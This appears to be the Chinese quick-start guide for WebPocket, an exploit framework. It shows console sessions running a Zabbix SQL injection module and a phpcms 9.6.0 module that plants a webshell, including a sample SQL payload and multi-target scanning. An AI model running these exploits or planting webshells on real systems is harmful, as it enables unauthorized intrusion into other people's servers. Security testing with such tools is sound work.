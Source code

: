 ==================
快速入门
==================


下载 && 安装
==================

首先克隆最新的代码到本地 ::

    git clone https://github.com/TuuuNya/WebPocket

然后安装Python所需的模块 ::

    pip install requirements.txt

如果要使用虚拟环境可自行安装virtualenv等Python虚拟环境。

执行如下命令，如果看到WebPocket的Banner则为安装完成。 ::

    python WebPocket.py
    ➜ python3 WebPocket.py

    W)      ww         b)      P)ppppp                  k)               t)
    W)      ww         b)      P)    pp                 k)             t)tTTT
    W)  ww  ww e)EEEEE b)BBBB  P)ppppp   o)OOO   c)CCCC k)  KK e)EEEEE   t)
    W)  ww  ww e)EEEE  b)   BB P)       o)   OO c)      k)KK   e)EEEE    t)
    W)  ww  ww e)      b)   BB P)       o)   OO c)      k) KK  e)        t)
     W)ww www   e)EEEE b)BBBB  P)        o)OOO   c)CCCC k)  KK  e)EEEE   t)T




    (✿ ♥‿♥)   WebPocket has 2 modules

    WebPocket >

常用命令
==================

对单目标执行POC/EXP
-------------------

此处以 ``exploits/http/zabbix/zabbix_latest_php_sqli`` 模块为例，对目标 ``http://127.0.0.1:8080`` 执行。 ::

    WebPocket > use exploits/http/zabbix/zabbix_latest_php_sqli
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > show options
    Module options:

    name     required    description                            value
    -------  ----------  -------------------------------------  ---------------------------------
    URL      True        The url to be tested
    TIMEOUT  True        Connection timeout                     5
    THREADS  True        The number of threads                  1
    SQL      True        The SQL statement you want to execute  updatexml(0,concat(0xa,user()),0)

    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > set URL http://127.0.0.1:8080
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > check
    [+] Check success!
    [+] URL:http://127.0.0.1:8080 has the vulnerability
    [*] module execution completed
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > exploit
    [+] Exploit success!
    [+] Exploit result: root@172.18.0.4
    [*] module execution completed
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) >

首先 ``use`` 模块，然后使用 ``show options`` 查看需要设置的参数。

最后使用 ``check`` 或者 ``exploit`` 执行检查/测试。

对多个目标执行POC/EXP
-----------------------

首先执行 ``python WebPocket.py`` 进入交互式命令行。

当要对多个目标执行POC的时候，可以把目标写入到txt文件，然后使用 ``set URL -f target.txt`` 传入。例如： ::

    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > use exploits/http/zabbix/zabbix_latest_php_sqli
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > show options
    Module options:

    name     required    description                            value
    -------  ----------  -------------------------------------  ---------------------------------
    URL      True        The url to be tested
    TIMEOUT  True        Connection timeout                     5
    THREADS  True        The number of threads                  1
    SQL      True        The SQL statement you want to execute  updatexml(0,concat(0xa,user()),0)

    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > set URL -f url.txt
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > set THREADS 20
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > exploit
    [+] Exploit result: root@172.18.0.4
    [+] Exploit result: root@172.18.0.4
    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
    [+] Exploit result: root@172.18.0.4
    [+] Exploit result: root@172.18.0.4
    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) >

相信你也看到了，可以设置 ``THREADS`` 来设置线程数，支持多线程执行 :)

所有命令
==================

help
-----------

输入 ``help`` 可查看所有命令 ::

    WebPocket > help

    Documented commands (type help <topic>):

    Core Command
    ============
    banner  db_rebuild

    Module Command
    ==============
    back  check  exploit  list  reload  run  search  set  show  use

    Other
    =====
    help  history  quit

    WebPocket >

``help`` 后可跟WebPocket命令，用来查看WebPocket命令的作用 ::

    WebPocket > help  quit
    Usage: quit [-h]

    Exit this application

    optional arguments:
      -h, --help  show this help message and exit

    WebPocket >

list
-------------

``list`` 命令用来列出所有可用的模块 ::

    WebPocket > list
    Module List:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/zabbix_2_0_3_sqli               False    2016-08-22         zabbix 2.0.3 jsrpc.php sqli
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    WebPocket >

注：WebPocket启动时会自动创建sqlite数据库，位于 ``database/`` 目录下， ``search`` 命令是从数据库中取出的数据。
如果添加或删除了模块，需要执行 ``db_rebuild`` 重新构建数据库以用于检索。

search
----------

``search`` 命令用来检索模块，可根据 ``name``, ``module_name``, ``description``, ``author``, ``disclosure_date``, ``service_name``, ``service_version``, ``check`` 字段来进行检索。

默认按 ``module_name`` 检索，比如： ::

    WebPocket > search phpcms
    Search results:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The search is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

支持多个关键词，使用方法如下: ::

    WebPocket > search service_name=phpcms  service_version=9.6.0
    Search results:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The search is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

use
----------

``use`` 命令用于选择要使用的模块： ::

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

show
----------

``show`` 命令可用于查看模块信息，支持 ``info``, ``options``, ``missing`` 子命令。

 * ``show info`` 命令用于查看模块信息以及模块参数
 * ``show options`` 命令用于查看模块参数
 * ``show missing`` 命令用于查看必填却没有填写的参数

使用样例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show info
    Module info:

               name:  phpcms 9.6.0 register getshell
        description:  phpcms 9.6.0 register page getshell
             author:  ['unknown']
         references:  ['https://www.hackersb.cn/hacker/219.html']
    disclosure_date:  2017-04-14
       service_name:  phpcms
    service_version:  9.6.0

    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show missing
    Missing Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

set
----------

``set`` 命令用于设置模块参数，格式为：``set name value``，使用案例如下: ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

check
----------

``check`` 方法用于检测目标是否存在该模块所对应的漏洞。可理解为验证漏洞（POC）。

使用案例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > check
    [+] Check success!
    [+] Target http://www.hackersb.cn has vul
    [*] module execution completed
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

exploit / run
---------------

``exploit`` 命令等同于 ``run`` ，用于执行模块/Exploit

使用案例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > exploit
    [+] Exploit success!
    [+] Webshell: http://www.hackersb.cn/shell.php
    [*] module execution completed
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

back
----------

``back`` 命令用于取消选中的模块，和 ``use`` 命令相反。

reload
----------

``reload`` 命令用于重新加载模块，比如在执行WebPocket以后，修改了模块代码，需要重新加载最新的代码，可以使用该命令。

